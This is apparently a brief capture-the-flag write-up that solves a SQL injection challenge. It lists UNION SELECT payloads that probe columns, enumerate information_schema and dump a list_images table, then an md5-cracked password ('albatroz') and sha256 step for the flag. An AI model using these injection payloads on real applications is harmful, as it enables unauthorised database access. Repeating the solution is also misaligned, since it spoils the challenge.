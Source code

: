 ## 1
Use '1 OR 1=1 UNION SELECT NULL, NULL--' to get the columns
## 2
Use '1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns' to get columns for images
## 3
Use '1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images' to get all the info (screenshot 'sql')
## 4
Copy the code, use md5 to decrypt (the result is 'albatroz'), then sh256 will give us the flag.
